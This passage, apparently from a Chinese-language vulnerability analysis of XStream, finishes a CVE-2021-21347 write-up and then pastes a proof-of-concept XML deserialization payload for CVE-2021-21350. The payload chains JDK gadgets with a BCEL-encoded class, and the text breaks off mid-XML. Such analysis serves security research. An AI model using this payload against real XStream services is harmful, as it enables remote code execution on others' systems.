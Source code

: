 ![](_assets/1617677145000-35.png-w331s.png)

接下来的步骤就是通过URLClassloader去远程加载恶意类到本地 然后执行静态代码块中的恶意代码从而导致RCE，这个过程就不进行深入赘述了，至此CVE-2021-21347漏洞分析完毕

4\. CVE-2021-21350
------------------

粘贴一下POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQ$ddN$c20$Y$3d$85$c9$60$O$e5G$fcW$f0J0Qn$bc$c3$Y$T$83$89$c9$oF$M$5e$97$d9$60$c9X$c9$d6$R$5e$cb$h5$5e$f8$A$3e$94$f1$x$g$q$b1MwrN$cf$f9$be$b6$fb$fcz$ff$Ap$8a$aa$83$MJ$O$caX$cb$a2bp$dd$c6$86$8dM$86$cc$99$M$a5$3egH$d7$h$3d$G$ebR$3d$K$86UO$86$e2$s$Z$f5Et$cf$fb$B$v$rO$f9$3c$e8$f1H$g$fe$xZ$faI$c6T$c3kOd$d0bp$daS_$8c$b5Talc$8bxW$r$91$_$ae$a41$e7$8c$e9d$c8$t$dc$85$8d$ac$8dm$X$3b$d8$a5$d2j$y$c2$da1$afQ$D$3f$J$b8V$91$8b$3d$ecS$7d$Ta$u$98P3$e0$e1$a0$d9$e9$P$85$af$Z$ca3I$aa$e6ug$de$93$a1$f8g$bcKB$zG$d4$d6$Z$I$3d$t$95z$c3$fb$e7$a1$83$5bb$w$7c$86$c3$fa$c2nWG2$i$b4$W$D$b7$91$f2E$i$b7p$80$rzQ3$YM$ba$NR$c8$R$bb$md$84$xG$af$60oH$95$d2$_$b0$k$9eII$c11$3a$d2$f4$cd$c2$ow$9e$94eb$eeO$820$3fC$d0$$$fd$BZ$85Y$ae$f8$N$93$85$cf$5c$c7$B$A$A</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='com.sun.org.apache.bcel.internal.util.ClassLoader'>
                  <parent class='sun.misc.Launcher$ExtClassLoader'>
                  </parent>
                  <package2certs class='hashtable'/>
                  <classes defined-in='java.lang.ClassLoader'/>
                  <defaultDomain>
```